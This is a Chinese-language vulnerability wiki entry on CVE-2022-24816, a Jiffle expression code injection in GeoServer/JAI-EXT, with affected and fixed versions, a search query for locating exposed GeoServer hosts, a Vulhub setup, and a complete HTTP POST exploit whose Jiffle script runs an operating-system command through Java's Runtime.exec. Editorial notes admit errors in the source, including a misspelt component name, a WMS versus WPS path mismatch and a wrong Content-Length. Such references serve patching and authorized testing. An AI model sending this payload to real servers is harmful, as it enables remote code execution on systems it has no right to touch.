


# GeoServer / JAI-EXT Jiffle 地图表达式Java代码注入

## 条目说明

- 对象与具体问题：GeoServer / JAI-EXT Jiffle；地图表达式Java代码注入
- 版本、配置及部署条件：JAI-EXT<=1.2.21；GeoServer2.20.4/2.19.6/2.18.6改依赖1.2.22；测试2.17.2
- 认证与权限前提：样本无认证，但模块/服务配置需核
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 错分致远OA；主产品GeoServer、组件JAI-EXT，version把组件写jal-ext拼错
- 称WMS接口但请求是WPS Execute service=WPS/ras:Jiffle发送/wms，需说明分发条件或路径误植
- Content-Length44与完整XML严重不符；提供多份原始来源

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

GeoServer 使用 JAI-EXT 提供的 Jiffle 地图代数语言，这让使用者可以高效地在大图像上执行地图查询。在 JAI-EXT 1.2.21 及更早版本中存在一个代码注入漏洞（CVE-2022-24816），该漏洞允许攻击者通过精心构造的 Jiffle 调用来执行远程代码。

在 GeoServer 中，这个漏洞也被称为 [CVE-2023-35042](https://osgeo-org.atlassian.net/browse/GEOS-10458)。GeoServer 2.20.4、2.19.6 和 2.18.6 及更高版本通过将 JAI-EXT 依赖项更新到 1.2.22 修复了这个问题。

参考链接：

- https://www.synacktiv.com/publications/exploiting-cve-2022-24816-a-code-injection-in-the-jt-jiffle-extension-of-geoserver
- https://github.com/geosolutions-it/jai-ext/security/advisories/GHSA-v92f-jx6p-73rx
- https://geoserver.org/vulnerability/2022/04/11/geoserver-2-jiffle-jndi-rce.html
- https://osgeo-org.atlassian.net/browse/GEOS-10458
- https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2022/CVE-2022-24816.yaml

### 漏洞影响

```
GeoServer jal-ext <= 1.2.21
```

### 网络测绘

```
app="GeoServer"
```

### 环境搭建

Vulhub 执行如下命令启动一个 GeoServer 2.17.2 服务器：

```
docker compose up -d
```

服务启动后，你可以在 `http://your-ip:8080/geoserver` 查看到 GeoServer 的默认页面。




### 漏洞复现

漏洞存在于 WMS 接口中。攻击者可以通过向 `/geoserver/wms` 发送特制的请求来执行任意 Java 代码。请求中需要包含一个恶意的 Jiffle 表达式，这个表达式将被服务器执行。

```
<wps:LiteralData>dest = y() - (500); // */ public class Double {    public static double NaN = 0;  static { try {  java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream())); String line = null; String allLines = " - "; while ((line = reader.readLine()) != null) { allLines += line; } throw new RuntimeException(allLines);} catch (java.io.IOException e) {} }} /**</wps:LiteralData>
```

发送如下请求来复现漏洞：

```http
POST /geoserver/wms/ HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Content-Type: application/xml
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: */*

<?xml version="1.0" encoding="UTF-8"?>
<wps:Execute version="1.0.0" service="WPS" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://www.opengis.net/wps/1.0.0" xmlns:wfs="http://www.opengis.net/wfs" xmlns:wps="http://www.opengis.net/wps/1.0.0" xmlns:ows="http://www.opengis.net/ows/1.1" xmlns:gml="http://www.opengis.net/gml" xmlns:ogc="http://www.opengis.net/ogc" xmlns:wcs="http://www.opengis.net/wcs/1.1.1" xmlns:xlink="http://www.w3.org/1999/xlink" xsi:schemaLocation="http://www.opengis.net/wps/1.0.0 http://schemas.opengis.net/wps/1.0.0/wpsAll.xsd">
<ows:Identifier>ras:Jiffle</ows:Identifier>
<wps:DataInputs>
    <wps:Input>
    <ows:Identifier>coverage</ows:Identifier>
    <wps:Data>
        <wps:ComplexData mimeType="application/arcgrid"><![CDATA[ncols 720 nrows 360 xllcorner -180 yllcorner -90 cellsize 0.5 NODATA_value -9999  316]]></wps:ComplexData>
    </wps:Data>
    </wps:Input>
    <wps:Input>
    <ows:Identifier>script</ows:Identifier>
    <wps:Data>
        <wps:LiteralData>dest = y() - (500); // */ public class Double {    public static double NaN = 0;  static { try {  java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream())); String line = null; String allLines = " - "; while ((line = reader.readLine()) != null) { allLines += line; } throw new RuntimeException(allLines);} catch (java.io.IOException e) {} }} /**</wps:LiteralData>
    </wps:Data>
    </wps:Input>
    <wps:Input>
    <ows:Identifier>outputType</ows:Identifier>
    <wps:Data>
        <wps:LiteralData>DOUBLE</wps:LiteralData>
    </wps:Data>
    </wps:Input>
</wps:DataInputs>
<wps:ResponseForm>
    <wps:RawDataOutput mimeType="image/tiff">
    <ows:Identifier>result</ows:Identifier>
    </wps:RawDataOutput>
</wps:ResponseForm>
</wps:Execute>
```

> 请求长度说明：原资料 Content-Length 为 44；静态长度已移除，应由客户端根据最终请求体的字节数生成。

这样，数据包中的 Jiffle 表达式中的 Java 代码将被服务器执行，执行结果将返回在 `java.lang.ExceptionInInitializerError` 消息中：




### 漏洞修复

GeoServer 2.20.4、2.19.6 和 2.18.6 及更高版本通过将 JAI-EXT 依赖项更新到 1.2.22 修复该漏洞。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
